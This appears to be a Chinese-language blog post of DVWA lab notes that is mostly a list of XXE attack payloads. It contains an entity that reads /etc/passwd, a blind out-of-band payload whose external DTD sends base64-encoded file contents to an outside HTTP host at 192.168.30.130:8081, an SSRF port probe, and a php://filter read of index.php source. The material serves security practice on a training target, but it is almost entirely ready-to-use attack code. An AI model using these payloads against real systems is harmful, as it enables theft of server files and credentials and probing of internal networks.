```yaml
---
layout: post
title: XXE
subtitle: XXE
date: 2023-08-06 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - DVWA
  - 靶场实战
---
```

## XXE payload

1、**有回显—读服务器文件：**

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
        <!ENTITY content SYSTEM "file:///etc/passwd">
        <!--<!ENTITY content SYSTEM "file:///c://Windows//System32//test.txt">-->
]>
<x>&content;</x>
```

2、**无回显-读取文件**

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
        <!ENTITY % dtd SYSTEM "http://192.168.30.130:8081/test.dtd">
        %dtd;
        %send;
]>

test.dtd:
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.30.130:8081/?data=%file;'>">
%payload;
```

2、**SSRF—探测端口：**

适用于有回显和blind xxe，也是外部一般实体：

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY [

    <!ENTITY content SYSTEM "http://10.165.89.150:88">]>

<name>&content;</name>
```

3、**如果是php的话，可以用php的filter协议直接读出文件**

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE r [ 
<!ELEMENT r ANY>
<!ENTITY goodies SYSTEM "php://filter/read=convert.base64-encode/resource=index.php"> ]> 
<creds>&goodies;</creds>
```
